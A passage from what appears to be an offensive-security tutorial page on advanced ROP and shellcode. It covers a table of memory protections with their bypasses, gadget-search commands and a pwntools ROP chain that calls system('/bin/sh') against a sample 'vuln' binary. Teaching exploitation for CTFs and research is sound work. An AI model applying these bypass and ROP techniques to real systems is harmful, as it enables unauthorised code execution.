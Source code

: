 ```yaml
---
icon: turn-down-left
---
```


# Advanced ROP & Shellcode Techniques

## **Advanced ROP & Shellcode Techniques — Bending Memory to Your Will**

***

Modern systems are armored with layers of protection: **NX, ASLR, stack canaries, PIE, RELRO** — all designed to make exploitation harder.\
But with **Return-Oriented Programming (ROP)** and **custom shellcode**, you can still gain execution in hardened environments.

This section transforms your exploit knowledge into real **post-mitigation offense** — the ability to bypass modern defenses and execute arbitrary payloads like a pro.

***

### I. 🧩 Advanced Memory Protections Overview

| Protection                                | Description                  | Bypass Technique                                        |
| ----------------------------------------- | ---------------------------- | ------------------------------------------------------- |
| **NX / DEP**                              | Stack is non-executable.     | Use ROP to invoke syscalls (e.g. `mprotect`, `execve`). |
| **ASLR**                                  | Randomizes memory addresses. | Leak addresses via format string or GOT.                |
| **Stack Canary**                          | Detects stack corruption.    | Leak canary, brute-force in local CTFs.                 |
| **PIE (Position Independent Executable)** | Randomizes base of binary.   | Leak binary base and rebase addresses.                  |
| **RELRO (Full / Partial)**                | Protects GOT from overwrite. | Use ROP instead of GOT overwrite.                       |

***

### II. ⚙️ Advanced ROP Building Blocks

#### 🧩 1. Finding Gadgets

```bash
ROPgadget --binary vuln | grep "pop rdi"
ropper --file vuln --search "pop rdi"
```

#### 🧠 2. Building ROP Chains

```python
from pwn import *
elf = context.binary = ELF('./vuln')
rop = ROP(elf)
rop.raw(rop.find_gadget(['ret'])[0])     # Stack alignment
rop.raw(rop.find_gadget(['pop rdi', 'ret'])[0])
rop.raw(next(elf.search(b'/bin/sh\x00')))
rop.raw(elf.symbols['system'])
print(rop.dump())
```

